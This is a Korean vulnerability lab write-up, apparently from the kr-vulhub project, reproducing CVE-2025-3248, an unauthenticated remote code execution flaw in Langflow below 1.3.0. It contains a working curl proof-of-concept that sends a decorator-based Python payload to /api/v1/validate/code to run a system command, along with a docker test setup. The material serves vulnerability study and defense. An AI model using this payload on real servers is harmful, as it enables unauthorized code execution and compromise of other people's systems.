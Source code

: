 # CVE-2025-3248            
---     

### 1. 요약        
* **Langflow** 는 에이전트 기반 AI 워크플로우를 구축할 수 있는 오픈소스 도구로, Python 기반 웹 인터페이스를 제공한다.       
* 1.3.0 버전 미만의 Langflow에는 인증 없이 발생하는 치명적인 원격 코드 실행 취약점(CVE-2025-3248)이 존재한다.         
* `/api/v1/validate/code` 엔드포인트에서 사용자로부터 제출된 Python 코드를 ast 모듈로 파싱하고, exec를 통해 함수 정의를 실행하는 과정에서 발생한다.         
* Python의 데코레이터나 기본 인자 표현식은 함수 정의 시점에 함께 실행되기 때문에, 공격자는 이 점을 이용해 악의적인 데코레이터나 기본 인자를 포함한 함수 정의를 전송함으로써 서버 사용자 권한으로 임의 코드를 실행할 수 있다.         
---               

### 2. 환경 구성 및 실행                
* `docker compose up -d` 커맨드를 입력해 테스트 환경을 실행한다.               
* 서버가 실행되면 `http://localhost:7860` 브라우저 접속할 수 있다.                
* 기본 계정 정보 **administrator:vulhub** 를 사용해 로그인할 수 있다.                    
---                          

### 3. 취약점 재현 (PoC)               
* 인증없이 `/api/v1/validate/code` 엔드포인트에 악성 Python 코드를 전송한다.           
```bash
curl -X POST http://localhost:7860/api/v1/validate/code \       
  -H "Content-Type: application/json" \        
  -d '{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"}'      
```          
---                              

### 4. 결과                        
* Langflow 관리자 페이지 접속 화면
![Langflow Admin Page Access](./result1.png)

* PoC curl 결과 화면
![PoC Output](./result2.png)
---     

### 5. 정리                                   
Langflow 1.3.0 미만 버전에서는 RCE 취약점이 존재한다. 이 취약점(CVE-2025-3248)은 인증 없이 서버에 Python 코드를 제출하고 서버가 이를 exec()로 실행하는 문제를 의미한다. 현재 PoC에서는 서버가 위험 모듈(subprocess) import를 막아 완전한 명령 실행은 실패했지만, 인증 없이 코드 실행이 가능한 상태를 확인할 수 있다.            
---     

      
(Pull-Request 주소 첨부) https://github.com/gunh0/kr-vulhub/pull/249


